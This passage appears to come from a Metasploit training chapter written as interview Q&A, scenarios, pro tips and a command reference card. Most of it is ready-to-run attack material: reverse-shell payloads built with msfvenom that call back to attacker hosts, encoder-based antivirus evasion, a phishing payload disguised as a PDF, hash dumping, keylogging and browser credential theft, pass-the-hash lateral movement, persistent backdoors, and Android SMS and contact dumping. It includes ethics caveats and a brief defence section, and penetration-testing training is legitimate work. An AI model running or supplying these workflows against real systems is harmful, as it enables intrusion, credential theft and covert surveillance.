msf6 exploit(...) > show options

# Step 5: Configure required options
msf6 exploit(...) > set RHOSTS 192.168.1.100
msf6 exploit(...) > set LHOST 192.168.1.50

# Step 6: Set payload (if not default)
msf6 exploit(...) > set payload windows/meterpreter/reverse_tcp

# Step 7: Check vulnerability (if supported)
msf6 exploit(...) > check

# Step 8: Execute exploit
msf6 exploit(...) > exploit

# Step 9: Post-exploitation
meterpreter > sysinfo
meterpreter > getuid
```

**Key Commands:**
- `back` - Return to main menu
- `info` - View module information
- `show options` - Display configuration
- `set/unset` - Configure options
- `exploit/run` - Execute attack

---

### Q4: What is Meterpreter and why is it preferred over regular shells?

**Answer:**

**Meterpreter Advantages:**

| Feature | Meterpreter | Regular Shell |
|---------|-------------|---------------|
| Memory resident | ✅ Yes | ❌ No |
| Encrypted comms | ✅ TLS available | ❌ Plain text |
| File operations | ✅ Built-in | ❌ Limited |
| Screenshot | ✅ Yes | ❌ No |
| Keylogging | ✅ Yes | ❌ No |
| Privilege escalation | ✅ getsystem | ❌ Manual |
| Persistence | ✅ Built-in | ❌ Manual |
| Network pivoting | ✅ autoroute | ❌ Manual |

**Essential Meterpreter Commands:**

```bash
# System information
meterpreter > sysinfo
meterpreter > getuid          # Current user
meterpreter > getpid          # Process ID

# File system
meterpreter > pwd
meterpreter > ls
meterpreter > cd C:\\Users
meterpreter > download file.txt
meterpreter > upload payload.exe

# Privilege escalation
meterpreter > getsystem       # Try to get SYSTEM
meterpreter > getprivs        # List privileges

# Network
meterpreter > ipconfig
meterpreter > netstat
meterpreter > route

# Post-exploitation
meterpreter > hashdump        # Dump password hashes
meterpreter > screenshot      # Capture screen
meterpreter > keyscan_start   # Start keylogger
meterpreter > keyscan_dump    # Show keystrokes

# Process management
meterpreter > ps              # List processes
meterpreter > migrate PID     # Migrate to process
meterpreter > execute -f cmd.exe -i -H  # Execute command
```

---

### Q5: How would you set up a handler for a payload created with msfvenom?

**Answer:**

**Complete Setup Process:**

**Step 1: Create Payload with msfvenom**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.50 \
         LPORT=4444 \
         -f exe \
         -o malicious.exe
```

**Step 2: Start Handler in msfconsole**
```bash
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set LHOST 192.168.1.50
msf6 exploit(handler) > set LPORT 4444
msf6 exploit(handler) > exploit
```

**Step 3: Deploy Payload**
- Transfer malicious.exe to target
- Execute on target system

**Step 4: Connection Received**
```bash
[*] Started reverse TCP handler on 192.168.1.50:4444
[*] Sending stage (175174 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened
meterpreter >
```

**Automated Handler Script:**
```bash
# Create resource script
echo "use exploit/multi/handler" > handler.rc
echo "set payload windows/meterpreter/reverse_tcp" >> handler.rc
echo "set LHOST 192.168.1.50" >> handler.rc
echo "set LPORT 4444" >> handler.rc
echo "exploit" >> handler.rc

# Run with resource script
msfconsole -r handler.rc
```

---

### Q6: Explain post-exploitation modules and their importance.

**Answer:**

**Post-Exploitation Categories:**

| Category | Purpose | Example Modules |
|----------|---------|-----------------|
| **Gather** | Information collection | enum_system, hashdump |
| **Manage** | System management | persistence, autoroute |
| **Escalate** | Privilege escalation | local_exploit_suggester |
| **Capture** | Data capture | screen_unlock |

**Essential Post Modules:**

```bash
# Local exploit suggester
meterpreter > run post/multi/recon/local_exploit_suggester

# Enumerate system info
meterpreter > run post/windows/gather/enum_system

# Dump hashes
meterpreter > run post/windows/gather/smart_hashdump

# Check for logged-on users
meterpreter > run post/windows/gather/enum_logged_on_users

# Gather chrome passwords
meterpreter > run post/windows/gather/credentials/chrome

# Setup persistence
meterpreter > run post/windows/manage/persistence

# Setup pivoting
meterpreter > run post/multi/manage/autoroute
```

**Using Post Modules Outside Meterpreter:**
```bash
msf6 > use post/windows/gather/hashdump
msf6 post(hashdump) > set SESSION 1
msf6 post(hashdump) > run
```

---

### Q7: How do you handle pivoting and lateral movement in Metasploit?

**Answer:**

**Pivoting Concept:**
```
Attacker → Compromised Host → Internal Network → Target
```

**Setting Up Pivots:**

**Method 1: Autoroute**
```bash
# In Meterpreter session
meterpreter > run post/multi/manage/autoroute

# Or manually
meterpreter > run autoroute -s 10.0.0.0/24
meterpreter > run autoroute -p  # Print routes
```

**Method 2: SOCKS Proxy**
```bash
# Set up SOCKS proxy
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(socks_proxy) > set SRVPORT 1080
msf6 auxiliary(socks_proxy) > run

# Configure proxychains
# Edit /etc/proxychains.conf
socks5 127.0.0.1 1080

# Use with tools
proxychains nmap -sT 10.0.0.5
```

**Lateral Movement:**
```bash
# Pass-the-hash
msf6 > use exploit/windows/smb/psexec
msf6 > set RHOSTS 10.0.0.5
msf6 > set SMBUser Administrator
msf6 > set SMBPass aad3b435b51404ee...

# PSExec via Meterpreter
meterpreter > run post/windows/manage/psexec

# Remote execution
meterpreter > execute -f cmd.exe -i -H
```

---

### Q8: How do you maintain persistence using Metasploit?

**Answer:**

**Persistence Techniques:**

**1. Meterpreter Persistence Script**
```bash
meterpreter > run persistence -U -i 10 -p 4444 -r 192.168.1.50
# -U: User-level persistence
# -i: Interval (seconds)
# -p: Port
# -r: Remote host
```

**2. Registry Persistence**
```bash
# Via Meterpreter
meterpreter > run post/windows/manage/persistence

# Manual registry key
reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v Backdoor -d "C:\\payload.exe"
```

**3. Scheduled Task**
```bash
meterpreter > shell
schtasks /create /tn "Update" /tr "C:\\payload.exe" /sc onlogon /rl HIGHEST
```

**4. Service Installation**
```bash
# Meterpreter
meterpreter > run post/windows/manage/persistence_service

# Manual
sc create Backdoor binPath= "C:\\payload.exe" start= auto
```

**5. WMI Persistence**
```bash
wmic /namespace:\\root\subscription PATH __EventFilter CREATE Name="Update", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
```

**Detection Considerations:**
- Persistence mechanisms are commonly detected
- Use custom techniques for red team
- Clean up after testing

---

### Q9: How would you approach a penetration test using Metasploit?

**Answer:**

**Penetration Testing Workflow with Metasploit:**

**Phase 1: Reconnaissance**
```bash
# Use auxiliary scanners
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > use auxiliary/scanner/smb/smb_version
msf6 > use auxiliary/scanner/ssh/ssh_version
```

**Phase 2: Enumeration**
```bash
# SMB enumeration
msf6 > use auxiliary/scanner/smb/smb_enumshares
msf6 > use auxiliary/scanner/smb/smb_enumusers

# HTTP enumeration
msf6 > use auxiliary/scanner/http/dir_scanner
```

**Phase 3: Vulnerability Assessment**
```bash
# Search for exploits
msf6 > search type:exploit platform:windows smb

# Check vulnerability
msf6 exploit(module) > check
```

**Phase 4: Exploitation**
```bash
# Select and configure exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 192.168.1.100
msf6 > set LHOST 192.168.1.50
msf6 > exploit
```

**Phase 5: Post-Exploitation**
```bash
# Gather information
meterpreter > sysinfo
meterpreter > run post/windows/gather/enum_system
meterpreter > hashdump

# Privilege escalation
meterpreter > getsystem
meterpreter > run post/multi/recon/local_exploit_suggester
```

**Phase 6: Lateral Movement**
```bash
# Setup pivoting
meterpreter > run autoroute -s 10.0.0.0/24

# Attack internal systems
```

**Phase 7: Reporting**
```bash
# Export data
msf6 > db_export -f xml report.xml

# Loot
msf6 > loot
msf6 > creds
```

---

### Q10: What are the legal and ethical considerations when using Metasploit?

**Answer:**

**Legal Requirements:**

| Requirement | Description |
|-------------|-------------|
| **Authorization** | Written permission required |
| **Scope** | Defined testing boundaries |
| **Documentation** | Record all activities |
| **Data Protection** | Handle extracted data securely |
| **Cleanup** | Remove all artifacts |

**Ethical Guidelines:**

**DO:**
- ✅ Obtain written authorization
- ✅ Define clear scope
- ✅ Document all activities
- ✅ Protect discovered data
- ✅ Report responsibly
- ✅ Clean up after testing
- ✅ Stay within legal boundaries

**DON'T:**
- ❌ Test without permission
- ❌ Exceed authorized scope
- ❌ Share sensitive data
- ❌ Cause unnecessary damage
- ❌ Leave persistent backdoors
- ❌ Publicly disclose findings

**Documentation Requirements:**
```bash
# Maintain logs
msf6 > spool /path/to/logfile.txt

# Database
msf6 > workspace -a project_name
msf6 > notes -a "Testing started"

# Export results
msf6 > db_export -f xml final_report.xml
```

**Legal Consequences:**
- Computer Fraud and Abuse Act (USA)
- IT Act Section 66 (India)
- Computer Misuse Act (UK)
- Unauthorized access = criminal offense

---

## 🔥 REAL-WORLD SCENARIOS

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                     SCENARIO 1: Internal Network Assessment                 ║
╚═══════════════════════════════════════════════════════════════════════════╝

📌 Situation:
Company needs internal network assessment. 100+ Windows machines, 
Active Directory environment.

🎯 Objective:
Identify vulnerabilities and demonstrate impact.

🔧 Approach:
# Step 1: Network discovery
msfconsole
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > set RHOSTS 192.168.1.0/24
msf6 > set PORTS 445,22,3389
msf6 > run

# Step 2: SMB enumeration
msf6 > use auxiliary/scanner/smb/smb_version
msf6 > set RHOSTS 192.168.1.0/24
msf6 > run

# Step 3: EternalBlue check
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > run

# Step 4: Exploit vulnerable hosts
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS <vulnerable_ip>
msf6 > exploit

📊 Results:
- Found 15 vulnerable hosts
- Gained Domain Admin access
- Demonstrated full compromise path
- Recommended immediate patching

⚠️ Notes:
- Document all findings
- Coordinate with IT team
- Business impact analysis
```

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                     SCENARIO 2: Web Application Exploitation                ║
╚═══════════════════════════════════════════════════════════════════════════╝

📌 Situation:
Web application with suspected vulnerabilities. Apache Tomcat 
manager exposed.

🎯 Objective:
Exploit web vulnerability and assess server access.

🔧 Approach:
# Step 1: Identify service
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 > set RHOSTS target.com
msf6 > set USER_FILE users.txt
msf6 > set PASS_FILE passwords.txt
msf6 > run

# Step 2: Exploit Tomcat
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 > set RHOSTS target.com
msf6 > set HttpUsername admin
msf6 > set HttpPassword admin
msf6 > exploit

# Step 3: Post-exploitation
meterpreter > sysinfo
meterpreter > shell
whoami
cat /etc/passwd

📊 Results:
- Tomcat manager had default credentials
- Gained shell access as tomcat user
- Could read sensitive files
- Recommended credential management

⚠️ Notes:
- Web vulnerabilities often lead to server access
- Default credentials are common issue
```

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                     SCENARIO 3: Phishing Payload Deployment                 ║
╚═══════════════════════════════════════════════════════════════════════════╝

📌 Situation:
Social engineering assessment requires payload delivery 
via phishing simulation.

🎯 Objective:
Create and deploy phishing payload for security awareness testing.

🔧 Approach:
# Step 1: Create payload
msfvenom -p windows/meterpreter/reverse_https \
         LHOST=attack.server.com \
         LPORT=443 \
         -f exe \
         -e x86/shikata_ga_nai -i 5 \
         -o "document.pdf.exe"

# Step 2: Setup handler
msfconsole
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_https
msf6 > set LHOST 0.0.0.0
msf6 > set LPORT 443
msf6 > exploit

# Step 3: Deploy via phishing
# (Simulated phishing email)

# Step 4: Post-exploitation
meterpreter > getuid
meterpreter > sysinfo
meterpreter > run post/windows/gather/enum_system

📊 Results:
- 15% click rate on phishing simulation
- 3 users executed payload
- Demonstrated need for security awareness
- Recommended phishing training program

⚠️ Notes:
- Proper authorization essential
- Document all user interactions
- Immediate security awareness training
```

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                     SCENARIO 4: Active Directory Compromise                 ║
╚═══════════════════════════════════════════════════════════════════════════╝

📌 Situation:
Gained initial access to domain-joined workstation. Need to 
escalate to Domain Admin.

🎯 Objective:
Achieve Domain Admin access through lateral movement.

🔧 Approach:
# Step 1: Enumerate domain
meterpreter > run post/windows/gather/enum_domain

# Step 2: Dump local hashes
meterpreter > hashdump

# Step 3: Pass-the-hash
msf6 > use exploit/windows/smb/psexec
msf6 > set RHOSTS dc01.domain.local
msf6 > set SMBDomain DOMAIN
msf6 > set SMBUser Administrator
msf6 > set SMBPass <hash>

# Step 4: Domain Controller access
meterpreter > shell
net user /domain
net group "Domain Admins" /domain

# Step 5: Persistence
meterpreter > run post/windows/manage/persistence

📊 Results:
- Successfully compromised Domain Controller
- Extracted all domain hashes
- Demonstrated full domain compromise
- Recommended network segmentation

⚠️ Notes:
- AD compromise has severe impact
- Document all credential access
- Recommend Privileged Access Management
```

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                     SCENARIO 5: Android Mobile Assessment                   ║
╚═══════════════════════════════════════════════════════════════════════════╝

📌 Situation:
BYOD security assessment. Need to demonstrate potential 
Android compromise.

🎯 Objective:
Create and test Android payload for authorized device.

🔧 Approach:
# Step 1: Create Android payload
msfvenom -p android/meterpreter/reverse_tcp \
         LHOST=192.168.1.50 \
         LPORT=4444 \
         -o app.apk

# Step 2: Setup handler
msf6 > use exploit/multi/handler
msf6 > set payload android/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.1.50
msf6 > exploit

# Step 3: Install and execute on device
# (With device owner permission)

# Step 4: Android post-exploitation
meterpreter > dump_sms
meterpreter > dump_contacts
meterpreter > dump_calllog
meterpreter > geolocate
meterpreter > webcam_snap

📊 Results:
- Full access to device data
- SMS and contacts extracted
- Demonstrated BYOD risks
- Recommended MDM solution

⚠️ Notes:
- Android requires installation permission
- Physical access often needed
- MDM can mitigate many risks
```

---

## ⚠️ SECURITY BEST PRACTICES

### ✅ DO's - Ethical Metasploit Usage

| Practice | Description |
|----------|-------------|
| ✅ **Get Written Authorization** | Documented permission required |
| ✅ **Define Clear Scope** | IP ranges, systems, methods allowed |
| ✅ **Document Everything** | Log all commands and results |
| ✅ **Use Test Labs** | Practice on DVWA, Metasploitable |
| ✅ **Protect Credentials** | Securely handle extracted data |
| ✅ **Clean Up** | Remove persistence and artifacts |
| ✅ **Report Professionally** | Clear findings and recommendations |
| ✅ **Stay Within Scope** | Never exceed authorized boundaries |
| ✅ **Use Encrypted Payloads** | When authorized and appropriate |
| ✅ **Maintain Backups** | Before testing critical systems |

### ❌ DON'Ts - What to Avoid

| Practice | Consequence |
|----------|-------------|
| ❌ **Unauthorized Testing** | Criminal prosecution |
| ❌ **Exceed Scope** | Contract termination, legal action |
| ❌ **Leave Persistence** | Ongoing security risk |
| ❌ **Share Exploits Publicly** | Legal liability |
| ❌ **Damage Production Systems** | Business impact, liability |
| ❌ **Ignore Notifications** | Detection and blocking |
| ❌ **Skip Documentation** | No audit trail |
| ❌ **Use Against Personal Targets** | Privacy violation |
| ❌ **Disclose Vulnerabilities Publicly** | Responsible disclosure required |
| ❌ **Install Without Testing** | System instability |

### 🛡️ Defensive Recommendations

```bash
# For Organizations - Metasploit Detection:

# 1. Network Monitoring
# Monitor for reverse connections
# IDS rules for known Metasploit signatures

# 2. Endpoint Protection
# Modern AV detects Meterpreter
# EDR solutions for behavioral analysis

# 3. Log Analysis
# Monitor authentication events
# Alert on unusual processes

# 4. Network Segmentation
# Limit lateral movement
# Separate critical systems

# 5. Patch Management
# Keep systems updated
# Regular vulnerability scanning

# 6. Least Privilege
# Limit user permissions
# Admin account separation

# 7. Security Awareness
# Train users on phishing
# Incident response procedures
```

---

## 📊 ARCHITECTURE DIAGRAMS

### Diagram 1: Metasploit Exploitation Flow

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT EXPLOITATION FLOW                          │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│   ATTACKER                          TARGET                               │
│   ┌───────────┐                    ┌───────────┐                        │
│   │ msfconsole│                    │  Service  │                        │
│   │           │                    │  (Vuln)   │                        │
│   └─────┬─────┘                    └─────┬─────┘                        │
│         │                                │                               │
│         │  1. Select exploit             │                               │
│         │  2. Configure options          │                               │
│         │  3. Execute exploit ──────────►│                               │
│         │                                │                               │
│         │                                │  4. Vulnerability triggered  │
│         │                                │  5. Payload executed         │
│         │                                │                               │
│         │◄───────────────────────────────│                               │
│         │  6. Reverse connection         │                               │
│         │                                │                               │
│   ┌─────▼─────┐                    ┌─────▼─────┐                        │
│   │Meterpreter│◄──────────────────►│  Shell    │                        │
│   │  Session  │                    │  Access   │                        │
│   └───────────┘                    └───────────┘                        │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### Diagram 2: Payload Types

```
┌─────────────────────────────────────────────────────────────────────────┐
│                      PAYLOAD TYPES COMPARISON                             │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│   STAGED PAYLOAD                        STAGELESS PAYLOAD               │
│   ┌──────────────────┐                  ┌──────────────────┐            │
│   │   STAGER         │                  │                  │            │
│   │   (Small)        │                  │   COMPLETE       │            │
│   │                  │                  │   PAYLOAD        │            │
│   │   ↓ Downloads    │                  │   (Large)        │            │
│   │                  │                  │                  │            │
│   │   STAGE          │                  │   No additional  │            │
│   │   (Full payload) │                  │   download       │            │
│   └──────────────────┘                  └──────────────────┘            │
│                                                                          │
│   Example:                              Example:                        │
│   windows/meterpreter/reverse_tcp       windows/meterpreter_reverse_tcp │
│                                                                          │
│   Use When:                             Use When:                       │
│   - File size limited                   - Unstable network               │
│   - Memory constraints                  - One-shot delivery              │
│   - Multiple stages possible            - AV evasion attempts            │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### Diagram 3: Meterpreter Capabilities

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    METERPRETER CAPABILITIES                               │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│                    ┌─────────────────┐                                   │
│                    │   METERPRETER   │                                   │
│                    │     SESSION     │                                   │
│                    └────────┬────────┘                                   │
│                             │                                            │
│      ┌──────────────────────┼──────────────────────┐                     │
│      │          │           │           │          │                     │
│      ▼          ▼           ▼           ▼          ▼                     │
│  ┌───────┐ ┌───────┐  ┌───────┐  ┌───────┐  ┌───────┐                  │
│  │System │ │ Files │  │Network│  │Capture│  │Elevate│                  │
│  │ Info  │ │Access │  │Pivot  │  │Spying │  │  Priv │                  │
│  └───────┘ └───────┘  └───────┘  └───────┘  └───────┘                  │
│      │          │           │           │          │                     │
│      ▼          ▼           ▼           ▼          ▼                     │
│  • sysinfo  • ls        • ipconfig  • screenshot • getsystem            │
│  • getuid   • download  • route     • keylogger • getprivs             │
│  • ps       • upload    • portfwd   • webcam    • hashdump             │
│  • migrate  • cat       • arp       • mic       • run post/            │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 🔗 RELATED CHAPTERS

| Chapter | Title | Relation |
|---------|-------|----------|
| **Ch34** | SQLMap Basics | Post-exploitation with extracted data |
| **Ch36** | PhoneSploit ADB | Mobile device exploitation |
| **Ch37** | Social Engineering Toolkit | Phishing + payload delivery |
| **Ch45** | Network Scanning | Target discovery |
| **Ch47** | Privilege Escalation | Post-exploitation techniques |
| **Ch48** | Web Application Attacks | Web exploitation basics |
| **Ch33** | John the Ripper | Cracking dumped hashes |

---

## 🏆 BONUS ADVANCED CONTENT

### Technique 1: Resource Scripts for Automation

Create automated Metasploit scripts:

```bash
# auto_exploit.rc - Resource script
# Usage: msfconsole -r auto_exploit.rc

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set LPORT 4444
exploit -j  # Run in background

# Wait for session
sleep 10
sessions -l

# Interact with session
sessions -i 1
sysinfo
getuid
```

**Advanced Resource Script:**
```bash
# multi_target.rc
<ruby>
# Ruby code in resource script
framework.sessions.each do |sid, session|
  print_status("Session #{sid}: #{session.sid}")
  framework.sessions[sid].console.run_single("sysinfo")
end
</ruby>
```

---

### Technique 2: Custom Module Development

Create a simple Metasploit module:

```ruby
# modules/exploits/custom/my_exploit.rb
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Custom Service Exploit',
      'Description'    => 'Exploits a custom vulnerable service',
      'Author'         => 'Your Name',
      'References'     =>
        [
          ['CVE', '2024-XXXX'],
          ['URL', 'https://example.com/advisory']
        ],
      'Platform'       => 'linux',
      'Arch'           => ARCH_X86,
      'Payload'        =>
        {
          'Space'    => 500,
          'BadChars' => "\x00\x0a\x0d"
        },
      'Targets'        =>
        [
          ['Linux x86', { 'Ret' => 0x41414141 }]
        ],
      'DisclosureDate' => '2024-01-01'
    ))

    register_options(
      [
        Opt::RPORT(12345)
      ])
  end

  def exploit
    connect
    print_status("Sending exploit...")
    
    buf = "A" * 500 + [target['Ret']].pack('V')
    sock.put(buf)
    
    handler
    disconnect
  end
end
```

---

### Technique 3: Meterpreter Scripting

Create custom Meterpreter scripts:

```ruby
# scripts/meterpreter/custom_enum.rb
# Run: run custom_enum

# Get system information
print_status("Running custom enumeration...")

# Execute commands
cmd_exec('whoami')
cmd_exec('net user')
cmd_exec('net localgroup administrators')

# Check for interesting files
files = [
  'C:\\Users\\Administrator\\Desktop\\',
  'C:\\Users\\Public\\Desktop\\',
  'C:\\inetpub\\wwwroot\\'
]

files.each do |path|
  if directory?(path)
    print_status("Found directory: #{path}")
    files = cmd_exec("dir #{path}")
    print_status(files)
  end
end

# Check for passwords
print_status("Searching for password files...")
password_files = cmd_exec('dir /s /b C:\\*password* 2>nul')
print_status(password_files)

print_status("Enumeration complete!")
```

---

## 📝 CHAPTER SUMMARY CHECKLIST

### Core Concepts Mastered
- [ ] Understood Metasploit architecture
- [ ] Learned msfconsole interface
- [ ] Mastered module selection and use
- [ ] Configured exploits and payloads
- [ ] Set up handlers for connections

### Technical Skills Developed
- [ ] Exploitation workflow
- [ ] Meterpreter post-exploitation
- [ ] Payload generation with msfvenom
- [ ] Session management
- [ ] Pivoting and lateral movement

### Practical Applications
- [ ] Network penetration testing
- [ ] Web application exploitation
- [ ] Post-exploitation activities
- [ ] Privilege escalation

### Best Practices Adopted
- [ ] Always obtain authorization
- [ ] Document all activities
- [ ] Clean up after testing
- [ ] Report findings professionally
- [ ] Follow legal guidelines

---

## 💡 PRO TIPS - Master Metasploit Like a Pro!

### Tip 1: Create Resource Scripts for Automation
```bash
# Create auto_exploit.rc file
echo "use exploit/windows/smb/ms17_010_eternalblue" > auto_exploit.rc
echo "set RHOSTS 192.168.1.100" >> auto_exploit.rc
echo "set LHOST 192.168.1.50" >> auto_exploit.rc
echo "exploit -j" >> auto_exploit.rc

# Run with resource script
msfconsole -r auto_exploit.rc
```

### Tip 2: Use Workspaces for Organization
```bash
msf6 > workspace -a project_name    # Add workspace
msf6 > workspace project_name        # Switch workspace
msf6 > workspace -l                  # List workspaces
msf6 > workspace -d project_name     # Delete workspace
```

### Tip 3: Import Nmap Scans Directly
```bash
# Scan with Nmap and import
nmap -sV -oX scan.xml 192.168.1.0/24

# In msfconsole
msf6 > db_import scan.xml
msf6 > hosts    # View imported hosts
msf6 > services # View discovered services
```

### Tip 4: Use Session Pre- and Post-Exploitation Scripts
```bash
# Set autorun script when session opens
set AutoRunScript post/windows/manage/migrate
set InitialAutoRunScript migrate -n explorer.exe
```

### Tip 5: Multi-Handler with Multiple Payloads
```bash
# Start handler for multiple payloads
msf6 > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set LHOST 0.0.0.0
msf6 exploit(handler) > set ExitOnSession false
msf6 exploit(handler) > exploit -j
```

### Tip 6: Persistent Backdoors
```bash
# In meterpreter session
meterpreter > run persistence -U -i 30 -p 4444 -r 192.168.1.50
# Creates persistent backdoor that connects every 30 seconds
```

### Tip 7: Pivoting Through Compromised Host
```bash
# Add route through session for pivoting
meterpreter > run post/multi/manage/autoroute

# Or manually
msf6 > route add 10.0.0.0/24 1    # Session 1 as pivot
```

### Tip 8: Use Auxiliary Modules for Recon
```bash
# Port scanning with Metasploit
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(tcp) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(tcp) > set PORTS 80,443,22,21
msf6 auxiliary(tcp) > run
```

### Tip 9: Payload Obfuscation with Multiple Encodings
```bash
# Multiple encoding iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 \
         -e x86/shikata_ga_nai -i 10 -f exe -o encoded.exe
```

### Tip 10: Use Meterpreter Scripts Wisely
```bash
# Essential meterpreter scripts
run post/windows/gather/enum_system          # System info
run post/windows/gather/smart_hashdump       # Dump hashes
run post/windows/gather/enum_applications    # Installed apps
run post/multi/recon/local_exploit_suggester # Priv esc suggestions
```

---

## 🔥 REAL WORLD BUG BOUNTY CASES

### Case Study 1: EternalBlue (MS17-010) Exploitation

**Scenario:** Penetration test on enterprise network

**Process:**
```bash
# Discovery
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner) > run

# Exploitation
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(eternalblue) > set LHOST 192.168.1.50
msf6 exploit(eternalblue) > exploit
```

**Result:** Full system compromise across multiple machines due to unpatched Windows systems

**Impact:** Critical - Domain admin access obtained through lateral movement

---

### Case Study 2: Apache Tomcat Manager Exploit

**Target:** E-commerce web server

**Process:**
```bash
# Identify Tomcat manager
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(tomcat_mgr_login) > set RHOSTS target.com
msf6 auxiliary(tomcat_mgr_login) > set USER_FILE users.txt
msf6 auxiliary(tomcat_mgr_login) > set PASS_FILE passwords.txt
msf6 auxiliary(tomcat_mgr_login) > run

# Exploit with valid credentials
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 exploit(tomcat_mgr_upload) > set RHOSTS target.com
msf6 exploit(tomcat_mgr_upload) > set HttpUsername admin
msf6 exploit(tomcat_mgr_upload) > set HttpPassword admin123
msf6 exploit(tomcat_mgr_upload) > exploit
```

**Result:** Server shell access, database credentials extracted

**Bounty:** $7,500 for critical server compromise

---

### Case Study 3: WordPress Plugin Exploitation

**Target:** Corporate blog running WordPress

**Discovery:**
```bash
# Scan WordPress
msf6 > use auxiliary/scanner/http/wordpress_scanner
msf6 auxiliary(wordpress_scanner) > set RHOSTS target.com
msf6 auxiliary(wordpress_scanner) > run

# Exploit vulnerable plugin
msf6 > use exploit/unix/webapp/wp_plugin_reflexgallery_upload
msf6 exploit(wp_plugin) > set RHOSTS target.com
msf6 exploit(wp_plugin) > exploit
```

**Impact:** Web shell uploaded, sensitive configuration files accessed

---

## ⚡ QUICK REFERENCE CARD - Metasploit Commands

```
╔══════════════════════════════════════════════════════════════════════════╗
║                  METASPLOIT QUICK REFERENCE CARD                          ║
╠══════════════════════════════════════════════════════════════════════════╣
║ MSFCONSOLE COMMANDS                                                       ║
╠══════════════════════════════════════════════════════════════════════════╣
║ help                        Show all commands                             ║
║ search <term>               Search for modules                            ║
║ use <module>                Select a module                               ║
║ info                        Show module details                           ║
║ show options                Display module options                        ║
║ show payloads               Available payloads                            ║
║ show targets                Available targets                             ║
║ set <option> <value>        Set option value                              ║
║ setg <option> <value>       Set global option                             ║
║ unset <option>              Clear option                                  ║
║ check                       Test if vulnerable                            ║
║ exploit / run               Execute exploit                               ║
║ back                        Exit current module                           ║
║ exit                        Exit msfconsole                               ║
╠══════════════════════════════════════════════════════════════════════════╣
║ SESSION MANAGEMENT                                                        ║
╠══════════════════════════════════════════════════════════════════════════╣
║ sessions -l                 List all sessions                             ║
║ sessions -i <id>            Interact with session                         ║
║ sessions -k <id>            Kill session                                  ║
║ sessions -K                 Kill all sessions                             ║
║ jobs -l                     List running jobs                             ║
║ jobs -k <id>                Kill job                                      ║
╠══════════════════════════════════════════════════════════════════════════╣
║ DATABASE COMMANDS                                                         ║
╠══════════════════════════════════════════════════════════════════════════╣
║ db_status                   Check database connection                     ║
║ workspace                   List workspaces                               ║
║ workspace -a <name>         Add workspace                                 ║
║ hosts                       List hosts                                    ║
║ services                    List services                                 ║
║ creds                       List credentials                              ║
║ loot                        List collected data                           ║
║ db_import <file>            Import scan results                           ║
║ db_export -f xml <file>     Export database                               ║
╠══════════════════════════════════════════════════════════════════════════╣
║ MSFVENOM PAYLOAD GENERATION                                               ║
╠══════════════════════════════════════════════════════════════════════════╣
║ msfvenom -l payloads         List all payloads                            ║
║ msfvenom -l encoders         List all encoders                            ║
║ msfvenom -l formats          List output formats                          ║
║                                                                                             ║
║ Windows Reverse Shell:                                                     ║
║ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe ║
║                                                                                             ║
║ Linux Reverse Shell:                                                       ║
║ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> -f elf -o shell.elf║
║                                                                                             ║
║ Android Payload:                                                           ║
║ msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> -o app.apk          ║
║                                                                                             ║
║ PHP Payload:                                                               ║
║ msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP> -f raw -o shell.php     ║
╠══════════════════════════════════════════════════════════════════════════╣
║ METERPRETER COMMANDS                                                      ║
╠══════════════════════════════════════════════════════════════════════════╣
║ sysinfo                     System information                            ║
║ getuid                      Current user                                  ║
║ getpid                      Current process ID                            ║
║ ps                          Running processes                             ║
║ pwd                         Current directory                             ║
║ ls                          List files                                    ║
